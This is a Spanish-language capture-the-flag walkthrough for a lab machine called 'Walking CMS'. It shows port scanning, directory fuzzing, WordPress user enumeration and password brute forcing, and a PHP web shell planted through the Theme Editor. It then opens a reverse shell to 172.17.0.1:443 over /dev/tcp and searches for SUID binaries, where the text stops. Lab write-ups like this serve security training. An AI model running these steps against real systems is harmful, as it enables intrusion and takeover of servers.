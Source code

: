 # MÁQUINA WALKING CMS

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto.jpg)

El único puerto que se encuentra abierto es el 80. así que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto2.jpg)

Es la página por defecto de Apache por lo que no hay mucha información, además en el código fuente tampoco encontramos nada.

El siguiente paso será hacer fuzzing web para encontrar ficheros o directorios que haya dentro de la máquina:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto3.jpg)

Hay un /wordpress que puede ser interesante, vamos a ver que hay:

![WP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto4.jpg)

Vamos a volver a hacer fuzzing ya que ahora encontraremos cosas diferentes:

```shell
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ2](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto5.jpg)

Encontramos lo típico de un wordpress, lo que más no puede interesar será el wp-login.php ya que será el lugar donde podremos acceder al panel.

Vamos a utilizar la herramienta wpscan para ver si podemos encontrar un usuario:

```shell
wpscan --url http://172.17.0.2/wordpress --enumerate u
```

![USR](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto6.jpg)

Hemos encontrado un usuario mario, ahora podemos ejecutar un ataque de fuerza bruta para conseguir su contraseña:

```shell
sudo wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```

![LOVE](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto7.jpg)

Ya hemos encontrado la contraseña, vamos a acceder al panel entonces:

Vemos que tiene el plugin de Theme Editor instalado y activo, una vez que entramos dentro vemos lo siguiente:

![ED](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto8.jpg)

Vamos a intentar habilitar la ejecución de comandos de forma remota para la página index.php del tema con un simple código de php:

```shell
<?php
	system($_GET['cmd']);
?>
```

![PHP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto9.jpg)

Si ahora nos dirigimos a la URL donde se encuentra el index.php e intentamos ejecutar comandos de forma remota vemos que funciona:

```shell
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```

![ID](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto10.jpg)

Vamos a obtener acceso a la máquina gracias a una reverse shell:

```shell
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![SHELL](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto11.jpg)

¿Habrá algún binario con permisos especiales? Veamoslo:

```shell
find / -perm -4000 2>/dev/null
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto12.jpg)








